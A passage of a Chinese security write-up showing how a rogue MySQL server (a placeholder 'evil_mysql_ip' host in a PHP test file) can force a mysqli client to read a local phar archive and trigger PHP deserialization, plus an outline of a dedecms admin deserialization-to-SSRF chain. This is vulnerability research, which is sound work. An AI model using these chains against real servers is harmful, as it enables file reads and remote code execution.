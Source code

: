 使用该文件生成一个phar.phar

然后我们模拟一次查询

```
test.php

&lt;?php
class A `{`
    public $s = '';
    public function __wakeup () `{`
        echo "pwned!!";
    `}`
`}`


$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, '`{`evil_mysql_ip`}`', 'root', '123456', 'test', 3667);
$p = mysqli_query($m, 'select 1;');

// file_get_contents('phar://./phar.phar');
```

图中我们只做了select 1查询，但我们伪造的evil mysql server中驱使mysql client去做load file local查询，读取了本地的

```
phar://./phar.phar
```

成功触发反序列化[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0173950dfe2372d23c.png)

### 反序列化 to RCE

当一个反序列化漏洞出现的时候，我们就需要从源代码中去寻找合适的pop链，建立在pop链的利用基础上，我们可以进一步的扩大反序列化漏洞的危害。

php序列化中常见的魔术方法有以下 – 当对象被创建的时候调用：construct – 当对象被销毁的时候调用：destruct – 当对象被当作一个字符串使用时候调用：toString – 序列化对象之前就调用此方法(其返回需要是一个数组)：sleep – 反序列化恢复对象之前就调用此方法：wakeup – 当调用对象中不存在的方法会自动调用此方法：call

配合与之相应的pop链，我们就可以把反序列化转化为RCE。

### dedecms 后台反序列化漏洞 to SSRF

dedecms 后台，模块管理，安装UCenter模块。开始配置[![](https://p2.ssl.qhimg.com/t012a6800b2249fb1c1.png)](https://p2.ssl.qhimg.com/t012a6800b2249fb1c1.png)

首先需要找一个确定的UCenter服务端，可以通过找一个dz的站来做服务端。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2020/01/f55a7398-56ff-486c-ac04-176fa2f605cf.png-w331s)[![](https://p3.ssl.qhimg.com/t01ff289e2f4710db4d.png)](https://p3.ssl.qhimg.com/t01ff289e2f4710db4d.png)

然后就会触发任意文件读取，当然，如果读取文件为phar，则会触发反序列化。
